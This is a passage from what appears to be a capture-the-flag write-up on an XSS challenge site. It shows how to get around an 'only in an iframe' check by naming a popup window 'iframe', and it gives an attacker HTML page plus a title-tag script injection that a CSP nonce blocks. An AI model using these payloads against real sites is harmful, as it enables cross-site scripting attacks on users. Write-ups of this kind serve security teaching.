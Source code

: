 Simple, let's just call `window.open()` instead, and open the frame in a new
tab.

Well it doesn't work, because of this piece of code:

```js
// verify we are in an iframe
if (window.name == 'iframe') {
    [...]
} else {
    document.body.innerHTML = `
    <h1>Error</h1>
    <h2>This page can only be viewed from an iframe.</h2>
    <video width="400" controls>
    <source src="movie.mp4" type="video/mp4">
    </video>`
}
```

Fortunately for us this is not a proper way to check if we're in an iframe. We
can just fake it by setting the name of the new window to "iframe". Our
malicious page would look like:

```html
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<script>
function popup() {
    var payload = encodeURIComponent(
        'My payload'
    );
    window.open('https://wacky.buggywebsite.com/frame.html?param=' + payload,
                'iframe'); // Sets name to "iframe" in the new window
}
</script>
</head>
<body>
<a href="#" onclick="popup()">Click me!</a>
</body>
</html>
```

We make sure to call `window.open()` in an `onclick()` handler, because if the
popup doesn't result from a click then it would be blocked by default.

### CSP Bypass

Out of the two injection points we've found, only the first one, between the
`<title>` tags, is not escaped. Normally we could just close the `<title>` tag
and inject our script there. However, because the CSP requires a nonce that we
don't know, the execution is blocked as we can see in the console:

```js
function popup() {
    var payload = encodeURIComponent(
        '</title><script>alert(origin)</script>'
    );
    window.open('https://wacky.buggywebsite.com/frame.html?param=' + payload,
                'iframe');
}
```
![CSP]({{page.assets}}wacky.buggywebsite.com_CSP.png)
